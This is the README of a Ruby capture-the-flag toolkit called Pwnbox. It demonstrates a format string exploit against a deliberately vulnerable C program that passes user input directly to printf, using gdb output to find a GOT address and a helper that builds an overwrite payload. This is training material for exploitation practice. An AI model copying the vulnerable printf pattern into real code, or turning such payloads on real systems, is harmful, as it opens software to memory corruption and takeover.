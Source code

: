 # Pwnbox

Capture-The-Flag(CTF) toolkit

## Installation

Add this line to your application's Gemfile:

    gem 'pwnbox'

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install pwnbox

## Usage

### Find a libc.so

```ruby
    libc = Pwnbox::Pwnable.find_libc(['system', 0x40100])
    puts "Path : #{libc.path}"
    puts "Read address : 0x%08X" % libc.find_address_by_name('read')
```

### Format string bug

An example is following.

```c
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    int main(int argc, char** argv)
    {
        char buf[0x100];
        strncpy(buf, argv[1], 40);
        printf(buf);
        exit(-1);
    }
```

Get exploit parameters using gdb.

```shell
    => 0x080484c7 <+74>:    call   0x8048330 <printf@plt>
    (gdb) x/i 0x8048350
       0x8048350 <exit@plt>:        jmp    *0x804a014
    (gdb) x/x $esp
    0xbffff2f0:     0xbffff30c
```

exit GOT : 0x804a014, buffer : 0xbffff30c, esp : 0xbffff2e0

```ruby
    Pwnbox::Pwnable.fsb(0x804a014, 0xbffff30c - 0xbffff2f0, [0xdeadbeef].pack('<I'))
```
